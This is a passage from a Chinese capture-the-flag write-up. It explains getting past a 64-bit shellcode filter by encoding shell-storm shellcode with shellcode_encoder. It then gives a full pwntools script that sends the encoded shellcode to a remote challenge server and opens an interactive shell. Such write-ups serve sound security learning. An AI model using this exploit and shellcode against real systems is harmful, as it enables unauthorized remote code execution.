 但是file发现是64位的，而msfvenom中并没有对应的编码器

然后又是漫长地搜索资料时间

最后发现可以用

Github上的 shellcode_encoder来Encode

于是由从http://shell-storm.org/shellcode/整了一个相应的shellcode 写到shell.bin里 然后找到对应的地址rax+29

```cpp
python2 main.py shellcode rax+29
```

> 因为其中奇奇怪怪的转义符号，最后还是手写了个脚本把字符串转成了对应的hex。。。。。。

```python
#coding=utf-8
from pwn import *
context(arch = 'amd64', os = 'linux')

token="xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"
dist=remote("202.38.93.241","10004")
#dist=process("./chall3")
shellcode="\x50\x50\x54\x41\x59\x41\x58\x56\x49\x33\x31\x56\x58\x58\x58\x66\x2d\x24\x3f\x66\x2d\x7a\x78\x66\x2d\x45\x48\x50\x5a\x54\x41\x59\x41\x58\x56\x49\x33\x31\x56\x58\x50\x50\x5b\x5f\x48\x63\x34\x3a\x31\x34\x3a\x53\x58\x2d\x62\x2b\x65\x32\x2d\x28\x20\x5f\x60\x35\x3e\x3f\x3f\x5f\x50\x5e\x31\x34\x3a\x57\x58\x2d\x3f\x3f\x3f\x3f\x2d\x7d\x60\x61\x43\x2d\x40\x60\x5f\x7d\x50\x5f\x48\x63\x34\x3a\x31\x34\x3a\x53\x58\x2d\x49\x4f\x46\x60\x2d\x41\x60\x21\x20\x35\x3e\x5f\x37\x3b\x50\x5e\x31\x34\x3a\x57\x58\x2d\x3f\x3f\x3f\x3f\x2d\x7d\x60\x61\x43\x2d\x40\x60\x5f\x7d\x50\x5f\x48\x63\x34\x3a\x31\x34\x3a\x53\x58\x2d\x3c\x68\x68\x29\x2d\x68\x60\x20\x20\x35\x6e\x3f\x3f\x3f\x50\x5e\x31\x34\x3a\x57\x58\x2d\x3f\x3f\x3f\x3f\x2d\x7d\x60\x61\x43\x2d\x40\x60\x5f\x7d\x50\x5f\x48\x63\x34\x3a\x31\x34\x3a\x53\x58\x2d\x40\x7b\x23\x27\x2d\x75\x78\x20\x40\x35\x4f\x36\x3f\x5f\x50\x5e\x31\x34\x3a\x57\x58\x2d\x3f\x3f\x3f\x3f\x2d\x7d\x60\x61\x43\x2d\x40\x60\x5f\x7d\x50\x5f\x48\x63\x34\x3a\x31\x34\x3a\x53\x58\x2d\x40\x23\x36\x70\x2d\x42\x20\x30\x60\x35\x76\x3f\x5f\x3f\x50\x5e\x31\x34\x3a\x57\x58\x2d\x3f\x3f\x3f\x3f\x2d\x7d\x60\x61\x43\x2d\x40\x60\x5f\x7d\x50\x5f\x48\x63\x34\x3a\x31\x34\x3a\x53\x58\x2d\x32\x20\x75\x40\x2d\x26\x40\x40\x20\x35\x2d\x5f\x3f\x77\x50\x5e\x31\x34\x3a\x57\x58\x2d\x3f\x3f\x3f\x3f\x2d\x7d\x60\x61\x43\x2d\x40\x60\x5f\x7d\x50\x5f\x53\x58\x2d\x20\x58\x22\x50\x2d\x20\x40\x7e\x70\x35\x58\x66\x5f\x3f\x50\x5f\x48\x63\x34\x3a\x31\x34\x3a\x53\x58\x2d\x20\x38\x30\x31\x2d\x20\x40\x20\x20\x35\x3f\x65\x3f\x3e\x50\x5e\x31\x34\x3a\x57\x58\x2d\x3f\x3f\x3f\x3f\x2d\x7d\x60\x61\x43\x2d\x40\x60\x5f\x7d\x50\x5f\x53\x58\x2d\x20\x60\x23\x51\x2d\x40\x60\x7d\x3f\x35\x3c\x3e\x5f\x6f\x50\x5e\x53\x58\x2d\x79\x60\x62\x42\x2d\x49\x40\x3e\x7e\x35\x26\x5f\x5f\x3f\x50\x5f\x41\x41\x41\x41\x7a\x5f\x48\x4c\x63\x20\x43\x6e\x59\x69\x3f\x6f\x4a\x6b\x61\x2a\x5d\x57\x3a\x2f\x58\x32\x34\x6a\x7d\x7e\x4f\x23\x48\x29\x21\x35\x45\x5a\x31\x70\x67\x7d\x3e\x56\x75\x6e\x5d\x3b\x3c\x64\x4f\x70\x23\x78\x6c\x26\x4f\x64\x42\x28\x63\x5b\x64\x30\x5e\x3f\x2d\x41\x47\x4b\x5d\x3f\x66\x39\x31\x41\x75\x77\x29\x6c\x63\x61\x2a\x47\x41\x5e\x59\x31\x78\x68\x37\x25\x4f\x2f\x2e\x7e\x37\x28\x39\x2d"
dist.recvuntil("Please input your token: ")
dist.sendline(token)
dist.send(shellcode)
dist.interactive()
```

## 0x0B 三教奇妙夜 {#0x0b-三教奇妙夜}

看了一下发现有很多相同帧
